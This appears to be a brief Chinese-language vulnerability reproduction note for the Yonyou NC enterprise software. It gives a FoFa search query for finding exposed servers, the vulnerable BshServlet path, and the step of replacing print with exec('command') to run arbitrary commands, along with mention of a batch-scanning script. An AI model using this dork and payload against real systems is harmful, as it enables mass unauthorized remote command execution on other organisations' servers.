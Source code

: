 # 影响范围：
用友NC
# FoFa Dork
icon_hash="1085941792"
# 漏洞复现：
登录页面：
![image](images/login.png)
访问漏洞地址
```/servlet/~ic/bsh.servlet.BshServlet```  
![image](images/servlet.png)
将```print```替换为```exec('command')```,evaluate。
![image](images/print.png)
返回结果：  
![image](images/exec.png) 
使用脚本批量验证：    
![image](images/script.png)  